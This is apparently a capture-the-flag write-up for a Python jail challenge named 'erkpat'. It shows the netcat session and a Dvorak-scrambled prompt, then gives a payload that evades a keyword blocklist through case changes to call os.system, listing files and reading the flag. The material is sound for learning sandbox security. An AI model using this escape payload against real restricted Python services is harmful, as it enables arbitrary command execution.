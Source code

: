 # erkpat

>I made so few errors when creating this jail.
>
>nc 34.72.64.224 8083
>
>nc 35.231.20.75 8083
>
>Created by Thomas (Seltzerz #6678)

>### Hint
>Look down at where you're typing.

---

## Connect to the server

```bash
inho@xps15:~/Desktop$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>>
```

dvorak
http://wbic16.xedoloh.com/dvorak.html




```
You've broken my code! Escape without the help of eval, exec, import, open, os, read, system, and write. First, enter 'dvorak'. You will then get another input which you can use try to break out of the jail.
```


## ls

```bash
inho@xps15:~/Desktop$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls')
Dockerfile
ekrpat.py
flag
ojal.
ynetd
Dockerfile

```


## cat flag
```bash
inho@xps15:~/Desktop$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag')
UMASS{dvorak_rules}

```

`UMASS{dvorak_rules}`

## Reference

https://anee.me/escaping-python-jails-849c65cf306e

